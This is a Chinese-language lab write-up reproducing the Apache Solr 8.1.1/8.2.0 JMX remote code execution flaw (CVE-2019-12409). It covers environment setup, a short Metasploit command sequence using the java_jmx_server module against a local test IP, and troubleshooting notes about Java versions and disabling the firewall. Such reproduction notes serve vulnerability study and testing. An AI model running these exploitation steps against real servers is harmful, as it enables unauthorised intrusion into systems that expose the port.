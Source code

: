 # 0x00 复现环境
使用复现环境：本地搭建的环境  
复现版本：Solr 8.2.0

# 0x01 环境搭建
目标环境：centos7_x64_en-us + solr-8.2.0.tgz + openjdk version "1.8.0_181"  
wget https://archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.tgz  
tar -xvf ./solr-8.2.0.tgz  
cd ./solr-8.2.0.tgz/bin/  
./solr start -force#默认启动端口8983  
启动后浏览器访问http://127.0.0.1:8983/ ，出现下图所示表示环境配置完成：  
![image](./1.png)  

# 0x02 利用条件
无

# 0x03 影响版本
Solr 8.1.1  
Solr 8.2.0

# 0x04 漏洞复现
攻击环境：kali2020 + msf5  
msfconsole  
use exploit/multi/misc/java_jmx_server  
set rhosts 172.16.35.138  
set rport 18983  
run  
![image](./2.png)


# 0x05 踩坑记录
坑1：  
在kali下搭建的漏洞环境run多次后一直失败，经查看发现kali下的java版本是openjdk version "11.0.6" 2020-01-14，怀疑可能是java版本过高导致的利用失败，故在ubuntu16.04_x64_en-us下使用java8重新搭建solr-8.2.0.zip，漏洞利用成功。
看过别人在java10下也有利用成功的文章，怀疑可能exp针对java10及以下的版本才有效。  
坑2：  
centos7下默认开启防火墙，需要临时关闭防火墙：“systemctl stop firewalld”

# 参考链接
https://github.com/jas502n/CVE-2019-12409
